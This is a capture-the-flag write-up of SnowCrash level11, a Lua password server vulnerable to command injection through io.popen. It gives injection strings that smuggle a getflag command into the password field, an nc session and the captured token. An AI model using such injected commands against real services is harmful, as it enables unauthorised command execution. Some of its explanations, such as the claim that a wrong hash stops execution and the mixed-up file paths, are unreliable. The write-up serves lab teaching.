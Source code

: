 How to find:
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
-r-x------  1 level11 level11  675 Apr  3  2012 .profile

Content of the .lua File
The main file running on the server is level11.lua. Below is the content of this file:

#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end
  end

  client:close()
end

The server is designed to accept password inputs, but it actually evaluates these inputs as shell commands. This is done using the io.popen() function in Lua, which allows executing commands and capturing their output.

prog = io.popen("echo "..pass.." | sha1sum", "r")

Example Commands
1. Using getflag > /tmp/password:

    When trying to send this string as a password, the server validates it as a single input. Since it does not match the expected password hash, the server rejects the input and does not execute the command.

2. Using (; getflag > /tmp/flag11) (&& getflag > /tmp/flag11):

    By including a semicolon before the command, the server is allowed to execute multiple commands. The shell interprets that it should execute an empty command before the ; and then executes getflag, which allows redirecting the command's output to /tmp/password, effectively creating the flag.

3. Using `getflag` > /tmp/flag11:

    Similar to the previous examples, entering this command allows the server to execute getflag, which redirects the output to /tmp/flag11. This also allows access to the flag.

level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: && getflag > /tmp/flag11
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Conclusion
    This discovery highlights the importance of input validation in systems that allow command execution. The lack of proper validation can lead to command injection vulnerabilities, enabling attackers to execute unauthorized commands on the system.
